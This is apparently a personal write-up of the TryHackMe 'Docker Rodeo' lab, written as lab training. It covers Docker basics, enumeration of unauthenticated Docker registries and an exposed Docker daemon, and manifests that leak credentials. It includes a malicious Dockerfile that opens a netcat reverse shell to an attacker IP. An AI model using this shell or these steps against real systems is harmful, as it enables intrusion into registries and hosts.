


# Docker Exploits

## Intro to Docker
Docker employs the same technology used in containerisation to isolate applications into containers called the Docker Engine. The Docker Engine is essentially an API that runs on the host operating system, which communicates between the operating system and containers to access the system’s hardware (such as CPU, RAM, networking and disk)

Because of this, the Docker engine is extensive and allows you to do things like:

- Connect containers together (for example, a container running a web application and another container running a database)
- Export and import applications (images)
- Transfer files between the operating system and container

### History of Docker
Originally created by Solomon Hykes in 2013, Docker is open-source and has become a well-renowned name within containerisation.

Docker started as an internal project for dotCloud (a PaaS provider), where it was then showcased in PyCon in 2013 and then quickly made open-source.

While containerisation's original concepts started in 1979 with Unix V7, Docker has made containerisation a popular technology since its release in 2013. Docker’s popularity is due to making the benefits of containerisation accessible and modern.

As of April 2022, It is fair to say that Docker is extremely popular. To be precise:
- 13 million developers are using Docker [1]
- There are 7 million applications made and ready to use with Docker [2]
- 13 billion applications are downloaded monthly! [3]
- …and this is just from the official repository

### How Does containerisation works?

Namespaces essentially segregate system resources such as processes, files and memory away from other namespaces.

Every process running on Linux will be assigned two things:

- A namespace
- A process identifier (PID)
Namespaces are how containerisation is achieved! Processes can only "see" other processes that are in the same namespace - no conflicts in theory. Take Docker, for example, every new container will be running as a new namespace, although the container may be running multiple applications (and in turn, processes).


## The Docker Rodeo
> https://tryhackme.com/room/dockerrodeo

### Setup

- add your instance IP address to `/etc/hosts`
```/etc/host
10.10.118.107       docker-rodeo.thm
```
- tell docker to trust your instance at `/etc/docker/daemon.json`
```
# create or enter a new line
{
  "insecure-registries" : ["docker-rodeo.thm:5000","docker-rodeo.thm:7000"]
}
```
- Stop and Start Docker (NOT Restart)
```
sudo systemctl stop docker
sleept 20
sudo systemctl start docker
```


### Abusing Docker Registry

Before we begin exploiting a Docker Registry, we need to first understand not only how we interact with them, but as to why they are so lucrative for us pentesters.

Docker Registries, at their fundamental, are used to store and provide published Docker images for use. Using repositories, creators of Docker images can switch between multiple versions of their applications and share them with other people with ease.

As with any system that we are going to be penetration testing, we need to enumerate the services running to understand any potential entry points. In our case, Docker Registry runs on port 5000 by default, however, this can be easily changed, so it is worth confirming via with a nmap scan like so: `sudo nmap -sV 10.10.118.107`

```
sudo nmap -sV 10.10.118.107

Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-29 05:09 BST
Nmap scan report for docker-rodeo.thm (10.10.118.107)
Host is up (0.0036s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Docker Registry (API: 2.0)
7000/tcp open  http    Docker Registry (API: 2.0)
MAC Address: 02:51:91:D0:D6:81 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.41 seconds

```

Not only is Nmap capable of discovering the Docker Registry, but also the API version - this is important to note for how we will interact with it.

The Docker Registry is a JSON endpoint, so we cannot just simply interact with it like we would a normal website - we will have to query it. Whilst this can be done via the terminal or browser, dedicated tools such as Postman or Insomnia are much better suited for the job. I will be using Postman in this room.

Docs: https://docs.docker.com/registry/spec/api/


**Discovering Repositories** 
We need to send a GET request to http://docker-rodeo.thm:5000/v2/_catalog to list all the repositories registered on the registry.
```json
{
    "repositories": [
        "cmnatic/myapp1",
        "dive/challenge",
        "dive/example"
    ]
}
```

Before we can begin analysing a repository, we need two key pieces of information: 
1. The repository name
2. Any repository tag(s) published

We currently have the repository name (cmnatic/myapp1) now we just need to list all tags that have been published. Every repository will have a minimum of one tag. This tag is the "latest" tag, but there can be many tags, all with different code, for example, major software versions or two tags for "production" and "development".

Send a GET request to `http://docker-rodeo.thm:5000/v2/repository/name/tags/list` to query all published tags. For our application, our request would look like so

`http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/tags/list`
```json
{
    "name": "cmnatic/myapp1",
    "tags": [
        "notsecure",
        "latest",
        "secured"
    ]
}
```

**Grabbing the Data!** 

With these two important pieces of information about a repository known, we can enumerate that specific repository for a manifest file. This manifest file contains various pieces of information about the application, such as size, layers and other information. I'm going to grab the manifest file for the "notsecure" tag via the following `GETrequest: http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/manifests/notsecure`

```json
{
   "schemaVersion": 1,
   "name": "cmnatic/myapp1",
   "tag": "notsecure",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:6e9b6055dfc50d2c85f1d56a61686f0f155632ed00eb484f2faae99fcdde9bee"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:4429b8d1a27b563a13bea19a39dc9cda477b77bb94dcf95236b80bfaeaddd4b9"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"bash\"],\"ArgsEscaped\":true,\"Image\":\"sha256:bb3ff36f9b5eb9f8f32cf0584acac540428c04e7aa6fc20dbaca1b2380411d75\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":null},\"container\":\"52cf98d7eb6aa25be283eebcffbd897ed31b386258497bf1132f4fbeb5e033a1\",\"container_config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"echo \\\"thm{here_have_a_flag}\\\" \\u003e /root/root.txt\"],\"Image\":\"sha256:bb3ff36f9b5eb9f8f32cf0584acac540428c04e7aa6fc20dbaca1b2380411d75\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":null},\"created\":\"2020-10-24T19:32:51.335770476Z\",\"docker_version\":\"19.03.13\",\"id\":\"236e40b3b1f018782604f78df6557d6ad47ac3cb8ad36342ea9cac06225b5262\",\"os\":\"linux\",\"parent\":\"983e6c996aa7d6ff7492f8f57be975e997180bf809ec193b173dcea4f9f97cd6\"}"
      },
      {
         "v1Compatibility": "{\"id\":\"983e6c996aa7d6ff7492f8f57be975e997180bf809ec193b173dcea4f9f97cd6\",\"parent\":\"63555f783d1f8c6b12ed383963261c7d9693ceef04580944c103167117503219\",\"created\":\"2020-10-13T01:40:01.167771798Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  CMD [\\\"bash\\\"]\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"63555f783d1f8c6b12ed383963261c7d9693ceef04580944c103167117503219\",\"created\":\"2020-10-13T01:40:00.890033494Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:ce4857398d963428cc93cbf7215159279fc5be5f51713a4637fb734be1c438b4 in / \"]}}"
      }
   ],
   "signatures": [
      {
         "header": {
            "jwk": {
               "crv": "P-256",
               "kid": "R67R:W5IG:RQKS:FPO5:4UPI:JMKR:237G:QBI6:WOZE:SZDI:WIRI:3POD",
               "kty": "EC",
               "x": "qdMYtIgaXQMOCHqALIOms_5F9pzQzHxFIUfeaRSSJrY",
               "y": "bl07hVbk8w6CAnQr2lF6gj0IQgO1nqt-BAfgwAmUHB8"
            },
            "alg": "ES256"
         },
         "signature": "DoYrgzLR9fRGCeAbIz7-vZ6n9Gym5ID4OgIedMo2EUQeo1I0Gw9m6TKfnHqvYmyUKBx4ScFaI2piqjNjc_NAow",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjI1NzAsImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyMy0wNi0wMlQwNToxMjo1M1oifQ"
      }
   ]
}
```


docker enumeration script
```bash
#!/bin/bash

# URL for Docker Registry
registry="http://docker-rodeo.thm:5000"
#registry="http://docker-rodeo.thm:7000" # 2nd Registry

# Get the catalog of repositories
repositories=$(curl -s "$registry/v2/_catalog" | jq -r '.repositories[]')

# Loop over the repositories
for repo in $repositories; do
    # Get the list of tags for this repository
    tags=$(curl -s "$registry/v2/$repo/tags/list" | jq -r '.tags[]')

    echo "Repository: $repo"
    echo "Tags: $tags"
    echo ""
done


#response
Repository: cmnatic/myapp1
Tags: notsecure
latest
secured

Repository: dive/challenge
Tags: latest

Repository: dive/example
Tags: latest
```


```
Repository: securesolutions/webserver
Tags: production

http://docker-rodeo.thm:7000/v2/securesolutions/webserver/manifests/production
```

response
```json
{
   "schemaVersion": 1,
   "name": "securesolutions/webserver",
   "tag": "production",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:7a668bba7a1a84d9db8a2fb2826f777e64233780a110041db8d42b797515cf57"
      },
      {
         "blobSum": "sha256:bc4544ab6267aaf520480ea4cc98e3169d252eab631801ef199b1ded807f306d"
      },
      {
         "blobSum": "sha256:07813898d5e66ad253cf5bb594a47c6963a75412ee3562d212d3bc1e896ad62f"
      },
      {
         "blobSum": "sha256:fdbb44f75d5b29f06c779f6eec33e886d165053275497583a150c9c2b444f3af"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:bb79b6b2107fea8e8a47133a660b78e3a546998fcf0427be39ac9a0af4a97e90"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"bash\"],\"ArgsEscaped\":true,\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":null},\"container\":\"72913ee3dc1d3bf6af92d8412b87a5803f04f7088ba7a8a4d8baf2de9078300d\",\"container_config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"printf \\\"Username: admin\\\\nPassword: production_admin\\\\n\\\" \\u003e /var/www/html/database.config\"],\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":null},\"created\":\"2020-10-24T19:48:37.160476683Z\",\"docker_version\":\"19.03.13\",\"id\":\"7b05b529c51e9322588fe7ef7e9be250681641b9f207900c035a26abc2b7eac2\",\"os\":\"linux\",\"parent\":\"a3531d00ed14133152959cb0bc77cb214a65638bb5e295f0a57262049f56add3\"}"
      },
      {
         "v1Compatibility": "{\"id\":\"a3531d00ed14133152959cb0bc77cb214a65638bb5e295f0a57262049f56add3\",\"parent\":\"a64c6dae778e931d83b59934a5b58f97b85e09c743ed1b18cb053ca0ecd2c58a\",\"created\":\"2020-10-24T19:48:36.298388069Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) COPY file:2c21f1c2caced37ec7c49be85e912509576e3aa6c68101bc90d3f56ae682b19c in /var/www/html/database.config \"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"a64c6dae778e931d83b59934a5b58f97b85e09c743ed1b18cb053ca0ecd2c58a\",\"parent\":\"2f585dc1662c7b0b99f93dfea45dd83e4b2bebdbf3e470c01e0569b941cb2cea\",\"created\":\"2020-10-24T19:48:36.007380392Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c mkdir -p /var/www/html/\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"2f585dc1662c7b0b99f93dfea45dd83e4b2bebdbf3e470c01e0569b941cb2cea\",\"parent\":\"3a41447eea9358b0bfca1df658a78a9fcfe2f8281da222f9bea7a70e2dc0a03c\",\"created\":\"2020-10-24T19:46:44.83701677Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c apt-get update -y\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"3a41447eea9358b0bfca1df658a78a9fcfe2f8281da222f9bea7a70e2dc0a03c\",\"parent\":\"5bd584b8f9464a6553e557ab0eceb484a63e77ab1b552c05eab75eeedde7c6d0\",\"created\":\"2020-10-13T01:39:05.467867564Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  CMD [\\\"bash\\\"]\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"5bd584b8f9464a6553e557ab0eceb484a63e77ab1b552c05eab75eeedde7c6d0\",\"created\":\"2020-10-13T01:39:05.233816802Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:0dc53e7886c35bc21ae6c4f6cedda54d56ae9c9e9cd367678f1a72e68b3c43d4 in / \"]}}"
      }
   ],
   "signatures": [
      {
         "header": {
            "jwk": {
               "crv": "P-256",
               "kid": "WPQB:FXDM:SBYA:4JQ4:KXD3:6XYA:CIBD:GDW7:DGYM:NEJE:MEEF:WGDR",
               "kty": "EC",
               "x": "MIzMa2HECcQ_TQmssIO6el7Nm3Xy-Tbimq0_NRwSiB8",
               "y": "s5jJC1WJJvpQCwAxOgoq0is3rN_m2PNleuIjoSE4EXs"
            },
            "alg": "ES256"
         },
         "signature": "xMUXycz4LIE366W2k0eFublPcLkhg-LuGEPbyJPcwVgGs9letoS85P_9x1djgU9kaymZUfpmOpIAUfK4-b2r2Q",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjQwMTksImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyMy0wNi0wMlQwNjoxMDo1MVoifQ"
      }
   ]
}
```


### Docker Diving 

Investigating Docker Layers: 
https://github.com/wagoodman/dive#installation

**Installation**

Ubuntu | Debian Base
```
wget https://github.com/wagoodman/dive/releases/download/v0.9.2/dive_0.9.2_linux_amd64.deb
sudo apt install ./dive_0.9.2_linux_amd64.deb
```

Mac
```
brew install dive
```


**Usage**
```
root@ip-10-10-118-139:~/repo# docker pull docker-rodeo.thm:5000/dive/challenge
docker-rodeo.thm:5000/dive/challenge:latest
root@ip-10-10-118-139:~/repo# docker images | grep rodeo
docker-rodeo.thm:5000/dive/challenge   latest              2a0a63ea5d88        2 years ago         111MB
docker-rodeo.thm:5000/dive/example     latest              398736241322        2 years ago         87.1MB
root@ip-10-10-118-139:~/repo# dive 2a0a63ea5d88
```


### Uploading Malicous Docker Image

Without proper authentication, we can upload our own image to the target's registry. That way, the next time the owner runs adocker pullor docker run command, their host will download and execute our malicious image as it will be a new version for Docker.


```
FROM debian:jessie-slim
RUN apt-get update -y
RUN apt-get install -y netcat
RUN nc -e /bin/sh 10.10.10.10 8080
```

case study:
- https://www.trendmicro.com/vinfo/us/security/news/virtualization-and-cloud/malicious-docker-hub-container-images-cryptocurrency-mining 


### RCE via Exposed Docker Daemon 

6.1. Unix Sockets 101 (no travel adapter required)

  If I were to mention the word "socket" you would most likely think of networking, right? Well, you're not wrong in doing so. With that said, what is often seldom discussed is UNIX sockets...Put simply, a UNIX socket accomplishes the same job as its networking sibling - moving data, albeit all within the host itself by using the filesystem rather than networking interfaces/adapters; Interprocess Communication (IPC) is an essential part to an operating system. Due to the fact that UNIX sockets use the filesystem directly, you can use filesystem permissions to decide who or what can read/write.

  There was an interesting benchmark test between using both types of sockets for querying a MySQL database. Notice in the screenshot below how there are an incredibly higher amount of queries performed when using UNIX sockets; database systems such as Redis are known for their performance due to this reason


https://www.percona.com/blog/need-to-connect-to-a-local-mysql-server-use-unix-domain-socket/


**Automating all the things** 

Developers love to automate, and this is proven nonetheless with Docker. Whilst Docker uses a UNIX socket, meaning that it can only interact from the host itself. However, someone may wish to remotely execute Docker commands such as in Docker management tools like Portainer or DevOps applications like Jenkins to test their program.

To achieve this, the daemon must use a TCP socket instead, permitting data for the Docker daemon to be communicated using the network interface and ultimately exposing it to the network for us to exploit.


ENUMERATE DOCKER 

```
╰─$ curl 10.10.132.193:2375/version | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
                                   100   863  100   863    0     0    500      0  0:00:01  0:00:01 --:--:--   500
{
  "Platform": {
      "Name": "Docker Engine - Community"
    },
  "Components": [
      {
            "Name": "Engine",
            "Version": "19.03.13",
            "Details": {
                    "ApiVersion": "1.40",
                    "Arch": "amd64",
                    "BuildTime": "2020-09-16T17:01:06.000000000+00:00",
                    "Experimental": "false",
                    "GitCommit": "4484c46d9d",
                    "GoVersion": "go1.13.15",
                    "KernelVersion": "4.15.0-123-generic",
                    "MinAPIVersion": "1.12",
                    "Os": "linux"
                  }
          },
      {
            "Name": "containerd",
            "Version": "1.3.7",
            "Details": {
                    "GitCommit": "8fba4e9a7d01810a393d5d25a3621dc101981175"
                  }
          },
          {
                "Name": "runc",
                "Version": "1.0.0-rc10",
                "Details": {
                        "GitCommit": "dc9208a3303feef5b3839f4323d9beb36df0a9dd"
                      }
              },
              {
                    "Name": "docker-init",
                    "Version": "0.18.0",
                    "Details": {
                            "GitCommit": "fec3683"
                          }
                  }
    ],
  "Version": "19.03.13",
  "ApiVersion": "1.40",
  "MinAPIVersion": "1.12",
  "GitCommit": "4484c46d9d",
  "GoVersion": "go1.13.15",
  "Os": "linux",
  "Arch": "amd64",
  "KernelVersion": "4.15.0-123-generic",
  "BuildTime": "2020-09-16T17:01:06.000000000+00:00"
}

```


docker -H tcp://10.10.132.193:2375 ps | tee docker-daemon-exposed.txt


CONTAINER ID   IMAGE                  COMMAND                  CREATED       STATUS             PORTS                    NAMES
63b932f4d7d2   privileged-container   "/usr/sbin/sshd -D"      2 years ago   Up About an hour   0.0.0.0:2244->22/tcp     musing_stonebraker
2b28b54f56f6   namespaces             "/usr/sbin/sshd -D"      2 years ago   Up About an hour   0.0.0.0:2255->22/tcp     goofy_diffie
3d8fe1db6635   container-socket       "/usr/sbin/sshd -D"      2 years ago   Up About an hour   0.0.0.0:2233->22/tcp     brave_mendel
fd1d7cc1b972   registry:2             "/entrypoint.sh /etc…"   2 years ago   Up About an hour   0.0.0.0:5000->5000/tcp   registry_example-registry_1
c5bd077f9ddb   registry:2             "/entrypoint.sh /etc…"   2 years ago   Up About an hour   0.0.0.0:7000->5000/tcp   registry_actual-registry-1_1


Look at this 

https://registry.hub.docker.com/r/chrisfosterelli/rootplease 


### Abusing Exposed Docker Daemon

enumerate for exposed docker socket 
```
nmap -sV -A -T4 --min-rate 8888 10.10.132.193 -p- -vv 
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:d0:39:ac:06:08:f2:8f:c3:01:bc:53:94:a3:81:dd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyWJO/e6RoZm8B/GvOqyKXF8yOm5tw/DMPw6CwkMyxJv1IITVDg7vRmvEpL5gd7nmf+8z9V2w56p0Y9IoRB6yUd2pGxPnxLnzn+tkmR/kbFkXwKCiHM9p+0rf2Z/B16JyMyLY4BzmGmDWaBTutFgfqYMrJ5yRgM9Uqo1GF1cb2BUoPjgusafPYNpRU3c2hXaVvOwKx0oXtHKmyVcmH1geRsOQ5evZowvowetbDLYf+X8+BkGJ6h6ge5K0y+E1SOatumwKtXs9P3UjzCvmZLeYInJvQeHtyzWG96aZooAUQFJ04sS+LHYINSbm4uDcOILRx8hadhj8meGX76KamOrjT
|   256 36:62:4b:1f:9b:3c:6f:22:cc:a9:3a:ae:98:7a:3e:d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEkuuS2jOZTEaQKxb5P12mhLDDpyrNRuytd810EFMewKuNfwka5ARI4lraPda+T2s3tpkWYNcfKJr2bCelmV7Xc=
|   256 f2:cb:82:b5:ba:e6:f0:86:cd:b5:30:61:e4:d3:ca:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrpwpt6doF7ocHG14+wUzL/r5cooC5ef30WDqXZDWag
2244/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 19:68:63:2c:1b:34:4d:61:95:15:65:ae:1f:1a:48:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDML947breANePfvUVjI5Who3YnozxtqPfSWYElIDI7mgxzpn1hJSZnY17VEvBi90PRjkg7X2l1nCKX48A7wyY4rkLGTBO/sMLVrylbQDVOG5RPG4vmnZXs3acRwRr5m15YV7OEYc6WycQaMaElUfy06WQI+cCv9wGUV0Xkz4xN+gDT0r34KLUEHrzN1R478QxoRX+rrAdHj6j6vDXCizGwWBPqJSeOBz7mspgVSN0aYjyN0EEPGi7MOmkL1i6E2Pvv17g4Zv7XD7UVzu+eSZzOt0wjPVgwkFXapYK7wnA5Rq3EEX/61EszSw4c+sgLEuGWjIY8I3Mo/IZqY/jCPozj
|   256 81:c8:1a:94:a3:29:a7:00:33:89:80:e7:35:b6:76:de (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOZqllWCjU44z6Ho/Klb55xcniFu7VomYL0mtptJjIIJMH+XeCJ7USG+BWA/OM6qfSkOpmHRqQyWmq5tukju+2s=
|   256 79:9e:ff:97:f1:6c:15:15:69:a7:60:d5:5c:9b:77:a4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINCxlu7Ftjbaq1lJ/2b2XmExm6tI/DewMAVvT6A8VvsE
2255/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:99:f6:a0:b9:3f:84:41:d1:54:fd:af:ba:13:68:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiRwKcIWTfA6BN5G46wzJ2WEGp0g8PFJyLOvJwDZAw8uaItzJUt9VtfZBF69Mm9MqTcnHDnH4Z8FocY1TU9DwJRxctIEvmiTxncjJcHIliI27XwgQxWoYM7aPkHVQCiqpawyftNkes59flfKqiA8i7aVz/a9WVv3pEWoJfKgDTw+zaFba9fbnqTPeUZVhKVxuWuftdUp9dtoUcGyui2DaUrTPTb6ZySihkIjlTfjjbZjY90H1ukv1vs7/ebIDgc35p7/1F6jYSGUn0xsTfLH18u2ensDkHqzzsR7NntkY7K1m1iR9cyZ2ss93b4hm4EC+ChfzsEJnwy0JaB0qztFE7
|   256 92:69:57:42:36:a5:c6:49:96:34:b0:9a:86:48:6d:ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPi5xfZGsTO2qlTRLii2yDxNhpBTdJ/zHCK25b+POUaysl/zcXDY7dmRFyHRcdgFVZDF8mzqWJMAzOdQVtyBz8s=
|   256 c1:5f:d6:96:2d:28:b8:d4:f5:0f:4d:6a:60:b6:b9:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN++8fEn7VV2VkKnyrUoupCho0NQidPDQ4wGTMDBUmnC
2375/tcp open  docker  syn-ack Docker 19.03.13
| docker-version: 
|   ApiVersion: 1.40
|   BuildTime: 2020-09-16T17:01:06.000000000+00:00
|   Os: linux
|   Arch: amd64
|   KernelVersion: 4.15.0-123-generic
|   GitCommit: 4484c46d9d
|   Platform: 
|     Name: Docker Engine - Community
|   GoVersion: go1.13.15
|   MinAPIVersion: 1.12
|   Version: 19.03.13
|   Components: 
|     
|       Details: 
|         ApiVersion: 1.40
|         Experimental: false
|         Os: linux
|         Arch: amd64
|         GoVersion: go1.13.15
|         KernelVersion: 4.15.0-123-generic
|         MinAPIVersion: 1.12
|         GitCommit: 4484c46d9d
|         BuildTime: 2020-09-16T17:01:06.000000000+00:00
|       Version: 19.03.13
|       Name: Engine
|     
|       Details: 
|         GitCommit: 8fba4e9a7d01810a393d5d25a3621dc101981175
|       Version: 1.3.7
|       Name: containerd
|     
|       Details: 
|         GitCommit: dc9208a3303feef5b3839f4323d9beb36df0a9dd
|       Version: 1.0.0-rc10
|       Name: runc
|     
|       Details: 
|         GitCommit: fec3683
|       Version: 0.18.0
|_      Name: docker-init
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Sat, 03 Jun 2023 09:50:11 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Sat, 03 Jun 2023 09:49:26 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Api-Version: 1.40
|     Docker-Experimental: false
|     Ostype: linux
|     Server: Docker/19.03.13 (linux)
|     Date: Sat, 03 Jun 2023 09:49:28 GMT
|     Content-Length: 0
|   docker: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
5000/tcp open  upnp?   syn-ack
| fingerprint-strings: 
|   GenericLines, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-cache
|     Date: Sat, 03 Jun 2023 09:49:25 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-cache
|     Date: Sat, 03 Jun 2023 09:49:44 GMT
|_    Content-Length: 0
7000/tcp open  http    syn-ack Docker Registry (API: 2.0)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title.
```

confirm expose docker socket 
```json
# curl http://10.10.190.10:2375/version
{
  "Platform": {
    "Name": "Docker Engine - Community"
  },
  "Components": [
    {
      "Name": "Engine",
      "Version": "19.03.13",
      "Details": {
        "ApiVersion": "1.40",
        "Arch": "amd64",
        "BuildTime": "2020-09-16T17:01:06.000000000+00:00",
        "Experimental": "false",
        "GitCommit": "4484c46d9d",
        "GoVersion": "go1.13.15",
        "KernelVersion": "4.15.0-123-generic",
        "MinAPIVersion": "1.12",
        "Os": "linux"
      }
    },
    {
      "Name": "containerd",
      "Version": "1.3.7",
      "Details": {
        "GitCommit": "8fba4e9a7d01810a393d5d25a3621dc101981175"
      }
    },
    {
      "Name": "runc",
      "Version": "1.0.0-rc10",
      "Details": {
        "GitCommit": "dc9208a3303feef5b3839f4323d9beb36df0a9dd"
      }
    },
    {
      "Name": "docker-init",
      "Version": "0.18.0",
      "Details": {
        "GitCommit": "fec3683"
      }
    }
  ],
  "Version": "19.03.13",
